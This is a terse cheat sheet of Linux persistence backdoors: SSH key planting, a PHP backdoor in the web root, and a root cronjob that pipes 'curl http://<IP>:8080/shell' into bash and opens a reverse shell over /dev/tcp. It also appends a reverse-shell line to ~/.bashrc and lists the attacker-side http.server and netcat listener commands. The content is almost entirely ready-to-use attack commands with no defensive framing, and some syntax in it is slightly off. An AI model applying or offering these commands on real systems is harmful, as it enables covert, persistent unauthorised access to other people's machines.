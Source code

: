 				SSH BackDoor

-- ssh-keygen                                   Generates ssh key
    -- Leave public key                      	 Place '/home/.ssh'
        -- chmod 600 id_rsa               	  Gives permissions
-- ssh -i id_rsa user@ip                    Use BackDoor

				PHP BackDoor
-- setup netcat
-- Location                                         /var/www/html 
    -- BackDoor script

-- Where to execute script                https://ip/PHP-BackDoor.php

				Cronjob BackDoor
-- Add to Cronjob                               * *     * * *   root    curl http://<IP>:8080/shell | bash
    -- Add Script inside Cronjob            #!/bin/bash
								bash -i >& /dev/tcp/ip/port 8080>&1
-- Get Bash shell

-- Host HTTP server                             python3 -m http.server 8080
--listen with netcat			   nc -nvlp <port>

				.bashrc
 --   If a user has bash as their login shell, the ".bashrc" file in their home directory is executed when an interactive session is launched.
-- you dont know when the user will log in so always have netcat listening
    
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc

				Links
-- https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c
